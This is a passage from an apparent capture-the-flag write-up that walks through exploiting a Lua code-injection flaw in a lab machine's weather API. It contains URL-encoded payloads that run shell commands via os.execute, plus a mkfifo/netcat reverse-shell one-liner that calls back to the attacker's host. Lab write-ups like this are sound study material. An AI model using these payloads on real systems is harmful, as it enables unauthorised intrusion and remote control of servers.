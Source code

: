 	  /forecast (Status: 200)

* __Goto__ `http://10.10.10.218/weather/forecast` through an error - 

	  {"code": 200, "message": "No city specified. Use 'city=list' to list available cities."}

* specifying `city=list` in the url and __Goto__ `http://10.10.10.218/weather/forecast?city=list` give the list of cities -

	  {"code": 200,"cities": ["London","Manchester","Birmingham","Leeds","Glasgow","Southampton","Liverpool","Newcastle","Nottingham","Sheffield","Bristol","Belfast","Leicester"]}

* specifying the city name from the list `city=London` in the url `http://10.10.10.218/weather/forecast?city=London` give the weather report of the city and the report is same for every city.

* adding single quote `'` in the end `http://10.10.10.218/weather/forecast?city='` through an error

	  <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value

* Error specified that the backend is running `lua` language.
* try diffrent lua syntex and finaly execute lua syntex - 

__Request:__ `http://10.10.10.218/weather/forecast?city=%27%29%3Bprint%28%22pwn%22%29--`

__Response:__ `{"code": 500,"error": "unknown city: pwn`

  * brackdown the payload - 
    1. payload is url encoded formate
	2. orignal lua syntex to fil the nill value `');<lua_syntex>--`

* there is a `os.execute` function in the lua that exeecute shell command from lua syntex.
* create a code executation payload with lua runtime - 

  __Payload:__ `');os.execute("id")--`

  __[URL-Enode](https://www.url-encode-decode.com/):__ `%27%29%3Bos.execute%28%22id%22%29--`

  __Request:__ `http://10.10.10.218/weather/forecast?city=%27%29%3Bos.execute%28%22id%22%29--`

  __Response:__ `"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)`

* and this verified the command execuation vulnerbility.

# User Exploit

## USER:_httpd shell

__Reverse shell: Payload:__ `');os.execute("rm  /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc tun0 4141 >/tmp/f")--`

__[URL-Enode](https://www.url-encode-decode.com/):__ `%27%29%3Bos.execute%28%22rm%2520+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+tun0+4141+%3E%2Ftmp%2Ff%22%29--`

__Request:__ `http://10.10.10.218/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20tun0%204141%20%3E%2Ftmp%2Ff%22%29--`

__Response:__ `nc -nvlp 4141`

